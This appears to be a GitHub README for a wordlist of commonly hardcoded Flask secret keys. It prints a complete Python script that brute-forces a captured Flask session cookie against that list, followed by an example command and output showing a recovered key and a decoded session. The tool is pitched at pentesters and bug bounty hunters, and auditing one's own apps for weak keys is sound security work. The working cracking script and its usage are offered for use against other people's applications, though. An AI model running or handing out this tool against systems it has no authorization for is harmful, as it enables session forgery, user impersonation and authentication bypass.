 
# Flask-Secret-Wordlist

![License: MIT](https://img.shields.io/badge/license-MIT-green)

A curated wordlist of the most commonly hardcoded Flask secret keys — used by developers as placeholders and **never changed in production**. This list is built from real-world analysis, tutorials, boilerplates, and AI-generated code snippets.

> **Why this matters:**  
Misconfigured or predictable `SECRET_KEY` values in Flask apps can **lead to session hijacking, remote code execution, and full account takeover** via crafted cookies or session brute-forcing. This project empowers ethical hackers, CTF players, and bug bounty hunters to audit Flask applications for weak secrets.

---

## Contents

- [`wordlist.txt`](/wordlist.txt) — A large list of common and AI-generated Flask `SECRET_KEY` values.
- [`exploit.py`](/exploit.py) — A placeholder script to brute-force Flask session cookies using the wordlist.

---

## Potential Impact

> If you can guess the `SECRET_KEY`, you may be able to:
- Forge or decrypt Flask session cookies
- Impersonate other users (e.g., admin)
- Modify or inject malicious session data
- Bypass authentication
- Achieve full control in some cases

**Never trust default keys — and always rotate your secrets.**

---

## ⚠️ Legal Disclaimer

This tool is provided for **educational and ethical testing** purposes only. Do not use against targets you don’t have permission to test. I am not responsible for misuse.

---

## [`exploit.py`](/exploit.py)

You can build a brute-force script using this snippet:

```python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import BadSignature
import argparse

class MockApp:
    secret_key = None

def decode_flask_cookie(secret_key, cookie_value):
    app = MockApp()
    app.secret_key = secret_key

    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    if not session_serializer:
        return None

    try:
        data = session_serializer.loads(cookie_value)
        return data
    except BadSignature:
        return None
    except Exception as e:
        print(f"[!] Error with key '{secret_key}': {e}")
        return None

def main():
    parser = argparse.ArgumentParser(description='Brute-force Flask secret key.')
    parser.add_argument('-c', '--cookie', required=True, help='Flask session cookie')
    parser.add_argument('-w', '--wordlist', required=True, help='Path to wordlist')
    args = parser.parse_args()

    with open(args.wordlist, 'r') as f:
        keys = [line.strip() for line in f]

    print(f"[*] Trying {len(keys)} keys...")

    for key in keys:
        result = decode_flask_cookie(key, args.cookie)
        if result is not None:
            print(f"[+] Found key: '{key}'")
            print(f"[+] Decoded session: {result}")
            return

    print("[-] Secret key not found in wordlist.")

if __name__ == '__main__':
    main()
```

---

## Example Usage

```bash
python exploit.py -c "eyJuYW1lIjoiSm9obiBEb2UiLCJyb2xlIjoiam91cm5hbGlzdCJ9.aJUTqw.Jp6vlGEa0zUzviCib2IXNI94qGA" -w wordlist.txt
```

### Output : 

```
[*] Trying 74 keys...
[+] Found key: 'supersecretkey123'
[+] Decoded session: {'name': 'John Doe', 'role': 'journalist'}
```

---

## License

MIT License. Use it freely, contribute, or build on it!

## Contributing

Contributions are welcome!
- Submit new hardcoded keys found in public repos
- Improve the `exploit.py` logic (e.g., multithreading, error handling)
- Suggest corner cases or expand the tool to Django / Rails cookies